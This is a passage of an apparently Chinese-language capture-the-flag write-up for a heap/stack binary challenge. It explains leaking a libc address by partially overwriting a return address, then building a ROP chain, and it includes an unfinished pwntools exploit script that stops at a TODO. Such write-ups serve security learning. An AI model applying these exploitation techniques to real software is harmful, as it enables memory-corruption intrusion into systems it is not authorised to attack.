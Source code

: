 我们可以注意到 rsi 在 `leave; ret` 的时候值和 libc 地址固定偏移如下
![alt_text](/assets/img/uploads/rsi_val.png)

我们看到 game 函数里面有如下代码  
```c
printf("[Attack]: %lu\n", attack);
```
我们 partial overwrite 返回地址的最后两个 byte，劫持到此处来输出 rsi 的值（因为覆盖两个字节，所以需要），从而 leak libc 地址   

然后我们再次进入该函数，覆盖 v4 低位为 `\x17`，然后构造 ROP chain 覆盖返回地址即可    

### exp

```py
from pwn import *
context(log_level='debug', arch='amd64', os='linux')
# p = remote("1.95.8.146", 9999)
p = process("./vul2")
libc = ELF("./lib/libc.so.6")

def add(idx, size, content):
    p.recvuntil("Choose an option: ")
    p.sendline("1")
    p.recvuntil("Enter index (0-15): ")
    p.sendline(str(idx))
    p.recvuntil("Enter diary content size (1-2048): ")
    p.send(str(size))
    p.recvuntil("Input your content: ")
    p.send(content)

def delete(idx):
    p.recvuntil("Choose an option: ")
    p.sendline("2")
    p.recvuntil("Enter index to destroy (0-15): ")
    p.sendline(str(idx))
    
def add_shutdown(idx, size):
    p.recvuntil("Choose an option: ")
    p.sendline("1")
    p.recvuntil("Enter index (0-15): ")
    p.sendline(str(idx))
    p.recvuntil("Enter diary content size (1-2048): ")
    p.send(str(size))
    p.recvuntil("Input your content: ")
    p.shutdown("send")

# TODO 先添加 padding, 使得对齐
p.recvuntil("> ")
p.sendline("1")
gdb.attach(p, "b* $rebase(0x191a)")
pause()
```